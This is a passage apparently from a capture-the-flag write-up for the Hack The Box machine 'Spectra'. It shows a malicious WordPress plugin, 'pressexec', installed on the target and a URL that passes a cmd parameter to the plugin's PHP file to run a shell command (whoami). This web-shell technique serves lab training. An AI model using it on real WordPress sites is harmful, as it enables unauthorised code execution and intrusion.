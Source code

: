 ![Installed plugins](screenshots/80_main_plugin.png)

The full path of the installed plugin is under `wp-content/plugins/`. And it can be triggered using the following URL, with the `cmd` parameter.

```none
http://spectra.htb/main/wp-content/plugins/pressexec/pressexec.php?cmd=whoami
```

![Code execution](screenshots/80_main_codeexecution.png)
